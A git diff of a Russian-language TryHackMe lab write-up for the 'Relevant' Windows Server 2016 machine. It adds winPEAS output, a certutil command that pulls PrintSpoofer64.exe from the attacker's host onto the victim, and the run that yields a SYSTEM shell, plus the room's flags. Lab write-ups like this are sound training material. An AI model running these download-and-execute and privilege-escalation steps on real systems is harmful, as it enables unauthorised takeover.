

Before and after one commit to 0x2d-pentest/TryHackMe, a Markdown page: Win Medium - Relevant/writeup.md, 2 parts joined by grey strips. Shown at 82% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Win Medium - Relevant/writeup.md
+++ b/Win Medium - Relevant/writeup.md
@@ -249,10 +249,6 @@ Bill
 
 ## 📂 Получение доступа
 
-
-
-## ⚙️ Привилегии
-
 Создаю реверс шелл
 ```
 ┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Relevant/exploits]
@@ -292,25 +288,75 @@ more user.txt
 THM{fdk4ka34vk346ksxfr21tg789ktf45}
 ```
 
+Информация по машине от winpeas
+```
+          ͹ Basic System Information
+  Check if the Windows versions is vulnerable to some known exploit https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#version-exploits
+    OS Name: Microsoft Windows Server 2016 Standard Evaluation
+    OS Version: 10.0.14393 N/A Build 14393
+    System Type: x64-based PC
+    Hostname: Relevant
+    ProductName: Windows Server 2016 Standard Evaluation
+    EditionID: ServerStandardEval
+    ReleaseId: 1607
+    BuildBranch: rs1_release
+    CurrentMajorVersionNumber: 10
+    CurrentVersion: 6.3
+    Architecture: AMD64
+    ProcessorCount: 2
+    SystemLang: en-US
+    KeyboardLang: English (United States)
+    TimeZone: (UTC-08:00) Pacific Time (US & Canada)
+    IsVirtualMachine: False
+    Current Time: 7/9/2025 5:46:49 AM
+    HighIntegrity: False
+    PartOfDomain: False
+    Hotfixes: KB3192137 (9/12/2016), KB3211320 (1/7/2017), KB3213986 (1/7/2017),
+```
+
+
+## ⚙️ Привилегии
+
+Первое, что пробую - SeImpersonatePrivilege
+```
+          ͹ Current Token privileges
+  Check if you can escalate privilege using some enabled token https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#token-manipulation
+    SeAssignPrimaryTokenPrivilege: DISABLED
+    SeIncreaseQuotaPrivilege: DISABLED
+    SeAuditPrivilege: DISABLED
+    SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
+    SeImpersonatePrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
+    SeCreateGlobalPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
+    SeIncreaseWorkingSetPrivilege: DISABLED
+```
+
+Скачиваю `https://github.com/itm4n/PrintSpoofer` и загружаю на жертву
+```
+c:\Users\Public>certutil -urlcache -f http://10.21.104.16:8888/PrintSpoofer64.exe print.exe
+certutil -urlcache -f http://10.21.104.16:8888/PrintSpoofer64.exe print.exe
+****  Online  ****
+CertUtil: -URLCache command completed successfully.
+```
+
+Запускаю
+```
+c:\Users\Public>print.exe -i -c "cmd.exe"
+print.exe -i -c "cmd.exe"
+[+] Found privilege: SeImpersonatePrivilege
+[+] Named pipe listening...
+[+] CreateProcessAsUser() OK
+Microsoft Windows [Version 10.0.14393]
+(c) 2016 Microsoft Corporation. All rights reserved.
+
+C:\Windows\system32>whoami
+whoami
+nt authority\system
+```
+
+
 ## 🏁 Флаги
 
 - User flag: THM{fdk4ka34vk346ksxfr21tg789ktf45}
-- Root flag:
+- Root flag: THM{1fk5kf469devly1gl320zafgl345pv}
 
 ---
-
-## 📋 Резюме
-
-🧰 **Инструменты:**
-  - nmap, ffuf, и др.
-
-🚨 **Уязвимости, которые удалось обнаружить:**
-  - Directory Traversal
-  - RCE через уязвимый скрипт
-
-🛡 **Советы по защите:**
-  - Использовать сложные пароли и ограничить число попыток входа
-  - Обновлять ПО до актуальных версий
-  - Удалять/ограничивать использование SUID-бинарников
-  - Настроить логирование и мониторинг системных событий
-  - Применять принцип наименьших привилегий
````
